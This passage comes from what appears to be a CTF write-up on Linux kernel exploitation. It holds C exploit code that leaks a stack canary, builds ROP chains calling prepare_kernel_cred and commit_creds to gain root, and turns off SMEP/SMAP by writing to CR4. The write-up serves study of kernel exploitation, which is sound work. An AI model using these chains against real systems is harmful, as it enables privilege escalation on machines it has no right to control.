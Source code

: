         if (!commit_creds && strcmp(name, "commit_creds") == 0) {
            commit_creds = addr;
            printf("\033[33m\033[1m[√] Found commit_creds: %lx\033[0m\n", commit_creds);
        }
    }

    offset = commit_creds - 0x9c8e0 - 0xffffffff81000000;
    core_set_offset(fd, 64);
    core_read(fd, name);
    canary = ((size_t *)name)[0];
    printf("\033[34m\033[1m[*] offset: 0x%lx\033[0m\n", offset);
    printf("\033[33m\033[1m[√] Canary: %lx\033[0m\n", canary);

    for (i = 0; i < 10; i++) rop[i] = canary;
    rop[i++] = POP_RDI_RET + offset;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;
    rop[i++] = POP_RDX_RET + offset;
    rop[i++] = POP_RCX_RET + offset;
    rop[i++] = MOV_RDI_RAX_CALL_RDX + offset;
    rop[i++] = commit_creds;
    rop[i++] = SWAPGS_POPFQ_RET + offset;
    rop[i++] = 0;
    rop[i++] = IRETQ + offset;
    rop[i++] = (size_t)shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd, rop, 0x100);
    core_copy(fd, 0xffffffffffff0000 | (0x100));

}
```

#### Method 0x2 - Disable SMEP/SMAP

The above method is not strictly considered "bypassing." Therefore, let's continue to look at how SMEP and SMAP operate.

![image.png](https://i.loli.net/2021/09/07/sYFKuZiUVNIclBp.png)

So, in essence, they are just two bits in the CR4 register, which we can set to zero.

Using ropper, we look for any gadgets that can pop cr4, but none are found. Instead, we find a gadget that moves cr4:

`0xffffffff81002515: mov cr4, rax; push rcx; popfq; ret;`

We then rearrange the ROP chain to set cr4 to 0x6f0 (for simplicity, you can also use other gadgets to precisely xor or not).

```c
for (i = 0; i < 10; i++) rop[i] = canary;
rop[i++] = POP_RAX_RET + offset;
rop[i++] = 0x6f0;
rop[i++] = MOV_CR4_RAX_PUSH_RCX_POPFQ_RET + offset;
rop[i++] = (size_t)getroot;
rop[i++] = SWAPGS_POPFQ_RET + offset;
rop[i++] = 0;
rop[i++] = IRETQ + offset;
rop[i++] = (size_t)shell;
rop[i++] = user_cs;
rop[i++] = user_rflags;
rop[i++] = user_sp;
```